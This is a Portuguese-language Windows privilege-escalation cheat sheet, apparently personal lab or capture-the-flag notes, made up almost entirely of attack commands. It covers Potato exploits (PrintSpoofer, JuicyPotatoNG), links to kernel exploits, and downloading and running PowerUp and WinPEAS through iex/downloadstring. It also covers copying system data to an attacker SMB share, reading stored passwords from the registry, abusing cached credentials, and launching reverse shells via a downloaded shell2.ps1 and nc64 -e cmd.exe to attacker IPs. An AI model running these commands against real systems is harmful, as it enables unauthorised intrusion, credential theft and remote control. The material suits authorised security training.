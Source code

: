 # Windows Privilege Escalation&#x20;

## Windows

Primeiramente, devemos dar uma checada em alguns diretórios principais, sendo eles o diretório do usuário, o C:, verificar se existem outros volumes que precisam ser montados ou até mesmo biniários que estejam evidenciando algum serviço explorável, por exemplo. Podemos usar os seguintes comandos para tal objetivo:

Teste basiquinho primeiro, porque mudei de ideia:

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```

Esse juicyPotato que funcionou é o que se encontra neste link:

[https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip](https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip)

agora sim uma checada nos diretórios da máquina:

### Checagem de diretórios

```
gci -recurse -filter <file_name> [-Path]
```

```
cd c:\users
gci -recurse
```

```
dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
```

```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```

### Kernel Exploitation

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Depois na máquina atacante basta executarmos o windows exploit suggester:

```
python windows-exploit-suggester.py -u
python windows-exploit-suggester.py -d 2024-01-23-mssb.xlsx -i si.txt
```

### PowerUp.ps1 e WinPEAS.exe

```
(new-object net.webclient).downloadfile('http://<hostname>/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\pu.ps1')
. ./pu.ps1
invoke-allchecks
```

```
iex (new-object net.webclient).downloadstring('http://<hostname>/PowerUp.ps1'); invoke-allchecks
```

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
```

### Enumerar processos na máquina

Aqui vale considerar também os permissionamentos que temos nas pastas que correspondem a serviços/processos que ocorrem na máquina para tentar alguma oportunidade de alterar o serviço/processo  de uma maneira não esperada.

```
get-process
wmic process
tasklist
tasklist /svc
```

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

```
\\vboxsvr\tools\accesschk.exe /accepteula -ucv <username> evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

```
icacls C:\service.exe
```

Uma fonte interessante para auxiliar com esse processo pode ser encontrado em:

[https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)

### Enumerar serviços rodando em localhost

```
netstat -nao
```

### Enumerar scheduled tasks

```
schtasks /query /fo LIST /v > schtasks.txt
copy schtasks.txt \\10.10.14.17\smb\scht.txt
```

Na máquina atacante, temos de filtrar esse output para verificar melhor cada coisa:

```
dos2unix scht.txt
cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

### Credenciais em registro

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   
    
(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword
```

```
reg query HKLM /f *password* /t REG_SZ /s
    
reg query HKLM /f teamviewer /t REG_SZ /s
    
reg query HKCU /f password /t REG_SZ /s
```

### Credenciais em cache&#x20;

```
cmdkey /list
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

### Dispositivos de armazenamento (device drivers)

<pre><code><strong>wmic logicaldisk get deviceid, volumename, description
</strong></code></pre>

```
powershell -c get-psdrive -psprovider filesystem
```

```
mountvol
mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\
```

### Unquoted Service Paths

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

### Credenciais já obtidas

Todas as credenciais já obtidas é bom testar na máquina por meio de alguns testes básicos tais como:

```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```

Além disso podemos considerar o runas também:

```
runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```

